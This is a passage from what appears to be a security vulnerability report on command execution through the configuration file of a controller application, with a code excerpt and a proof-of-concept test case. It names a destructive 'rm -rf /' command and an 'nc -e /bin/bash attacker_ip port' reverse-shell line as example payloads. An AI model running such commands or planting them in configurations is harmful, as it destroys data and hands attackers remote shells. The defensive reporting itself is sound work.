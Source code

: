     2. **CommandLineComponent Execution (`/code/controller/components/app.py`)**: The `CommandLineComponent` in `app.py` directly executes commands defined in the configuration using `subprocess.call`.
    ```python
    class CommandLineComponent(base.Component):
      def _start(self):
        for cmd in self.settings.when_on:
          self.logger.info('[{0}] Running: {1}'.format(self.name, cmd))
          ret = subprocess.call(cmd)
          self.logger.info('[{0}] Done (return code={1})'.format(self.name, ret))

      def _stop(self):
        for cmd in self.settings.when_off:
          self.logger.info('[{0}] Running: {1}'.format(self.name, cmd))
          ret = subprocess.call(cmd)
          self.logger.info('[{0}] Done (return code={1})'.format(self.name, ret))
    ```
    The `_start` and `_stop` methods iterate through the `when_on` and `when_off` lists from the component's settings and execute each command using `subprocess.call`. There is no input validation or sanitization on these commands.

    **Visualization**:

    ```
    config.protoascii --> ControllerApp (parses config) --> ComponentFactory (creates components) --> CommandLineComponent

    CommandLineComponent.start() or .stop() --> for cmd in settings.when_on/off: --> subprocess.call(cmd) --> System Command Execution
    ```

    If a malicious user can modify `config.protoascii` to include commands like `rm -rf /` or `nc -e /bin/bash attacker_ip port` within a `CommandLineComponent`, and the server is started with this modified configuration, these commands will be executed when the component is initialized or triggered (e.g., on system start or stop).

  - **Security Test Case:**
    1. **Prepare Malicious Configuration File**: Create a file named `malicious_config.protoascii` with the following content. This configuration defines a `CommandLineComponent` that will create a file `/tmp/flightlab_pwned.txt` when the component is started.
    ```
    machines: [
      {
        name: "master"
        ip: "127.0.0.1"
        components: [
          {
            name: "malicious_command"
            type: COMMANDLINE
            commandline: {
              when_on: ["touch /tmp/flightlab_pwned.txt"]
            }
          }
        ]
      }
    ]
    master_machine_name: "master"
    ```
    2. **Replace Configuration File**: Assume you have a way to replace the legitimate `config.protoascii` with `malicious_config.protoascii` on the server machine. For testing purposes, you might manually replace the file. In a real attack scenario, this might involve exploiting another vulnerability or social engineering.
    3. **Start Controller Server**: Run the controller server application, pointing it to the malicious configuration file:
    ```sh
    python main.py server --config malicious_config.protoascii
    ```